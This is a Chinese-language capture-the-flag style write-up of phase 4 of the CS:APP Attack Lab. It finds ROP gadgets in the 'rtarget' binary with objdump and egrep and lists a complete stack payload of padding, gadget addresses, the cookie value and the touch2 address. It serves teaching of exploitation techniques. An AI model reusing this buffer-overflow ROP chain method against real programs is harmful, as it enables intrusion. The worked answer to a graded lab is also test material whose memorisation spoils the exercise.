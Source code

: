 
phase 4
-------

由于教程谈到过 *phase 4* 只会用到 *mid_farm* 之前的 *gadget* ,先把可能用到的机器码找出来
```bash
$objdump -d rtarget | egrep -n "((start|mid)+_farm)"
915:0000000000401994 <start_farm>:
951:00000000004019d0 <mid_farm>:

$objdump -d rtarget | sed -n "915, 951p" > farm_machine_code.txt
```
之后我们就可以在 *farm_machine_code* 里查找所需要的机器码了

让我们回忆下 *phase 2*，我们需要的仅仅是一个指令 
```x86asm
movq   $0x59b997fa, %rdi
```
可是依靠 *gadget* 我们是无法完成传送常数这么复杂的操作的  

联想到附录里提供了 *movq, popq* 的机器码，可以很自然地想到可以先把 *0x59b997fa* 放在栈中（因为可以通过缓冲区溢出自由地操纵栈），然后将其 *popq* 到某一寄存器，再通过 *movq* 传送到 *%rdi* 

已知 *movq S, D* 的机器码开头是 *48 89* ：
```bash
$egrep -a1 "48 89 [cdef][0-9a-f] (90|c3|   )" farm_machine_code.txt
00000000004019a0 <addval_273>:
  4019a0:       8d 87 48 89 c7 c3       lea    -0x3c3876b8(%rdi),%eax
  4019a6:       c3                      retq
--
00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3
```
可以看到这两个都是（ *0x90* 是 *nop* ，空指令的意思）
```x86asm
movq   %rax %rdi
```
所以我们只需要机器码为 *58* 的
```x86asm
popq   %rax
```

```bash
$egrep -a1 "58 (90|c3|   )" farm_machine_code.txt
00000000004019a7 <addval_219>:
  4019a7:       8d 87 51 73 58 90       lea    -0x6fa78caf(%rdi),%eax
  4019ad:       c3                      retq
--
00000000004019ca <getval_280>:
  4019ca:       b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:       c3                      retq
```
计划通$\checkmark$

因此我们的栈中要依次存储 *poqq %rax* 的地址，*cookie* 的值，*movq %rax %rdi* 的地址， *touch2* 的地址
```bash
$cat rtarget.4.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00

```